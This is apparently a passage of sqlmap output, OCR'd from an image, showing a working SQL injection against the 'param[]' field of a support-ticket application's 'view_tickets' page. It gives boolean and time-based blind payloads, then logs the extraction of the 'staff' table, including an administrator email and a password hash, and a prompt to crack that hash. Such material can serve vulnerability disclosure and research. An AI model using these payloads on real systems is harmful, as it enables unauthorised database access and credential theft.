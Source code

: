 ```
    Payload: v=view_tickets&action=ticket&param[]=9&param[]=attachment&param[]=2&param[]=11 AND 8361=8361

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: v=view_tickets&action=ticket&param[]=9&param[]=attachment&param[]=2&param[]=11 AND (SELECT 5441 FROM (SELECT(SLEEP(5)))KFaR)
---
[06:55:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[06:55:44] [INFO] fetching columns for table 'staff' in database 'support'
[06:55:44] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[06:55:44] [INFO] retrieved: 14
[06:55:50] [INFO] retrieved: id
[06:56:02] [INFO] retrieved: username
[06:56:44] [INFO] retrieved: password
[06:57:36] [INFO] retrieved: fullname
[06:58:36] [INFO] retrieved: email
[06:59:11] [INFO] retrieved: login
[06:59:54] [INFO] retrieved: last_login
[07:01:20] [INFO] retrieved: department
[07:02:37] [INFO] retrieved: timezone
[07:03:39] [INFO] retrieved: signature
[07:04:44] [INFO] retrieved: newticket_notification
[07:07:34] [INFO] retrieved: avatar
[07:08:14] [INFO] retrieved: admin
[07:08:50] [INFO] retrieved: status
[07:09:35] [INFO] fetching entries for table 'staff' in database 'support'
[07:09:35] [INFO] fetching number of entries for table 'staff' in database 'support'
[07:09:35] [INFO] retrieved: 1
[07:09:39] [INFO] retrieved: 1
[07:09:46] [INFO] retrieved: Enable
[07:10:28] [INFO] retrieved:  
[07:10:42] [INFO] retrieved: a:1:{i:0;s:1:"1";}
[07:13:04] [INFO] retrieved: support@mysite.com
[07:15:33] [INFO] retrieved: Administrator
[07:17:04] [INFO] retrieved: 1
[07:17:11] [INFO] retrieved: 1543429746
[07:18:32] [INFO] retrieved: 1547216217
[07:19:43] [INFO] retrieved: 0
[07:19:54] [INFO] retrieved: d318f44739dced66793b1a603028133a76ae680e
[07:25:21] [INFO] retrieved: Best regards,  Administrator
[07:28:48] [INFO] retrieved: 
[07:28:49] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)          
[07:29:52] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[07:29:55] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[07:29:55] [INFO] retrieved: admin
[07:30:31] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[07:30:37] [INFO] writing hashes to a temporary file '/tmp/sqlmap8vttgx9w281056/sqlmaphashes-wql228qo.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: support
Table: staff
[1 entry]
```